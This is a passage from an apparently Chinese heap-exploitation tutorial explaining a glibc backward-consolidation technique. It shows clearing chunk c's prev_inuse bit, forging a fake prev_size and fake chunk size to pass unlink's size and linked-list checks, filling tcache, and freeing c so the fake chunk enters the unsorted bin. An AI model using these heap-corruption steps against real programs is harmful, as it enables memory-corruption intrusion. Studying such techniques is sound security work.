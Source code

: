 把 `chunk c` 的 size 域的 `prev_inuse` 位改为 0。

[![](assets/1702521085-6c917bbd12bfd7ab41bec42c388e8f7e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205230848-3152dd0e-9380-1.png)

```plain
uint64_t* c_size_ptr = (uint64_t*)(c - 8);
    b[real_b_size] = 0;
```

由于 unlink 存在保护，所以需要计算 `fake_freechunk` 的大小

检查机制的源码如下：

```plain
// 由于 P 已经在双向链表中，所以有两个地方记录其大小，所以检查一下其大小是否一致(size检查)
if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0)) \
malloc_printerr ("corrupted size vs. prev_size");
// 检查 fd 和 bk 指针(双向链表完整性检查)
if (__builtin_expect (FD->bk != P || BK->fd != P, 0)) \
malloc_printerr (check_action, "corrupted double-linked list", P, AV);
```

demo 中的计算如下

```plain
printf("\nWe write a fake prev_size to the last %lu bytes of 'b' so that "
           "it will consolidate with our fake chunk\n", sizeof(size_t));
    size_t fake_size = (size_t)((c - sizeof(size_t) * 2) - (uint8_t*) a);
    printf("Our fake prev_size will be %p - %p = %#lx\n", c - sizeof(size_t) * 2, a, fake_size);
    *(size_t*) &b[real_b_size-sizeof(size_t)] = fake_size;

    // Change the fake chunk's size to reflect c's new prev_size
    printf("\nMake sure that our fake chunk's size is equal to c's new prev_size.\n");
    a[1] = fake_size;

    printf("Our fake chunk size is now %#lx (b.size + fake_prev_size)\n", a[1]);
```

当然，计算出的结果还是之前填入的0x60（wu

由于unlink需要在 `unsorted bin` 中进行所以需要先填满 `tcache bin` (2.23可以不用)

随后free c

此时便触发了向后合并， `fake_chunk` 被放入了 `unsorted bin` 中
